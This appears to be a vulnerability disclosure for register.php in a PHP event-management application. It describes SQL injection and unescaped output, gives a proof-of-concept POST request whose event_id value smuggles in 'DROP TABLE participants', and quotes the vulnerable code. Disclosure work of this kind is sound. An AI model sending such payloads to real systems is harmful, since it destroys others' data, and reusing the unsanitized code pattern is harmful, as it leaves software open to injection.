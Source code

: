 # Vulnerability Description:

The code in register.php is vulnerable to SQL injection, allowing an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. Additionally, the code lacks proper input validation and sanitization, making it susceptible to various forms of attacks such as cross-site scripting (XSS) and potential security risks.


## Proof of Concept (PoC):

### SQL Injection:
The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

An attacker can manipulate the event_id parameter in the HTTP request to inject malicious SQL code.

#### PoC:

```
POST /event-management-master/backend/register.php HTTP/1.1
Host: localhost

event_id=1'; DROP TABLE participants; --
```
This could result in a SQL query like:

```
INSERT INTO `participants` (`p_id`,`event_id`, `fullname`, `email`, `mobile`,  `college`, `branch`) 
VALUES (NULL,'1'; DROP TABLE participants; --', 'test', 'test@gmail.com', '0555555555', 'asd', 'qwe')
```

To mitigate this, use prepared statements or parameterized queries to ensure proper sanitization of user inputs.


## Vulnerable code section:
```
$event_id = $_POST['event_id'];
$mobile = $_POST['mobile'];
$name = "/^[a-zA-Z ]+$/";
$emailValidation = "/^[_a-z0-9-]+(\.[_a-z0-9-]+)*@[a-z0-9]+(\.[a-z]{2,4})$/";
$number = "/^[0-9]+$/";

...

if(!preg_match($number,$mobile)){
    // Vulnerable to bypass using non-numeric characters
    echo "<div class='alert alert-warning'>
            <a href='#' class='close' data-dismiss='alert' aria-label='close'>&times;</a>
            <b>Mobile number $mobile is not valid</b>
          </div>";
    exit();
}
```



